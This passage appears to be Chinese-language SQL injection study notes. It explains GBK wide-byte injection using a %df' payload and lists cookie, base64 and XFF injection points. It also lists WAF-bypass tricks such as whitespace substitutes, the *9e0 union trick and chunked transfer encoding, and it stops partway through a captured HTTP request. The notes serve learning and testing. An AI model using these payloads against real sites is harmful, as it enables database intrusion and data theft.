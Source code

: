 > <h2 id="9">0x09 宽字节注入</h2>
### 触发条件
```
1. 传入的一些特殊符号是会被过滤的，例如,单双引号
2. 数据库的编码为GBK
```

### 触发过程
```php
" select 1 from user where id='$_GET[val]' "
/*
    可以看到变量被'包围了，假设之前有过滤函数会把单引号转义

    当我们提交参数 ' and 1=1 --+
    实际上数据库接收到的是,\被编码为%5c
    select 1 from user where id=%5c' and 1=1 --+
    可以看到绕过是失败的

    如果提交的参数是 %df' and 1=1 --+的话
    实际上数据库接收到的是
    select 1 from user where id=%df%5c' and 1=1 --+
    在GBK编码中，两个字符组成一个汉字，而%df%5c组成一个汉字，单引号成功逃逸
*/
```

> <h2 id="10">0x0A 一些其他的注入点</h2>
* cookie注入
* base64注入
* XFF注入

> <h2 id="11">0x0B 一些绕过手法</h2>
* 大小写绕过
* 双写绕过
* 编码绕过
    * 使用CHAR（）函数，把字符变成ASCII码绕过
    * 16进制绕过(字符编程16进制，然后0x编码)  
    `注意：上面这两种方法都是用来绕过数值型的防御的，如果是字符型，不破限制是用不了的`
* 内联注释绕过
* 关键字绕过
* HTTP参数污染
* 空格绕过
    * /**/ 使用注释代替空格
    * %09 TAB键（水平）
    * %0a 新建一行
    * %0c 新的一页
    * %0d return 功能
    * %0b TAB键（垂直）
    * %a0 空格

* %00绕过
* 加特殊值  
    1.*9e0  
        ```
        在第一个关键字前面加*9e0语句是可以成功被查询的，例如
        ?id=1' *9e0union select 1 --+
        这个语句是可以执行的，但是把*9e0加到其他位置就会报错，只有加到第一个关键字前面，我也不知道是为什么
       ```   
* 分块过WAF
    * 在HTTP请求头中添加以下请求头 Transfer-Encoding: chunked 添加了这个头后，就可以进行分段传输，注意要用在POST请求下
    * 下面是bp抓的一个包
    ```http
        POST /test.php HTTP/1.1
        Host: localhost
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8